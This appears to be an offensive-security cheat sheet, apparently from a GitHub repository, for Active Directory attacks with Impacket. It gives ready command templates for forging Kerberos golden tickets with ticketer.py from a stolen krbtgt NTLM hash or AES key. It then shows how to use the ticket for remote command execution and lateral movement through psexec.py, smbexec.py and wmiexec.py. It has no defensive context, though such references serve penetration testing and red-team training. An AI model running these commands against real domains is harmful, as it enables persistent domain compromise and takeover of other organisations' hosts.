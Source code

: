 ## golden_ticket

### to generate the TGT with NTLM
- `python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### to generate the TGT with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### set the ticket for impacket use
- `export KRB5CCNAME=<TGS_ccache_file>`

> search for psexec.py, smbexec.py or wmiexec.py

---

# psexec.py
- service: rpc
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---
# smbexec.py
- service: smb
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---

# wmiexec.py
- service: wmi
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---